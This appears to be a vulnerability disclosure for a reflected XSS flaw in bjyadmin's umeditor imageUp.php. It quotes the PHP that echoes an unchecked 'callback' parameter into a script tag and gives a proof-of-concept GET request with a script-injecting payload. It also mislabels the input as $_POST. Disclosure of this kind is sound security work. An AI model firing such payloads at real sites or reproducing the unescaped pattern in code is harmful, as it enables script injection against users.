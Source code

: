 A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/imageUp.php

```php
...
$callback=$_GET['callback'];		// Line 19
...
if($callback) {
    echo '<script>'.$callback.'('.json_encode($info).')</script>';	//Line 26
}
```


We see that there is no check between the input  $_POST["callback"] and the output(Line 26)

Thus the XSS will happen at `echo '<script>'.$callback.'('.json_encode($info).')</script>';`

Poc:

GET /Public/statics/umeditor1_2_3/php/imageUp.php?callback=%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3C%22

Manual verification:

![alt text](3.png)

![alt text](4.png)

The developers were informed of the report in here : https://github.com/baijunyao/laravel-restful/issues/3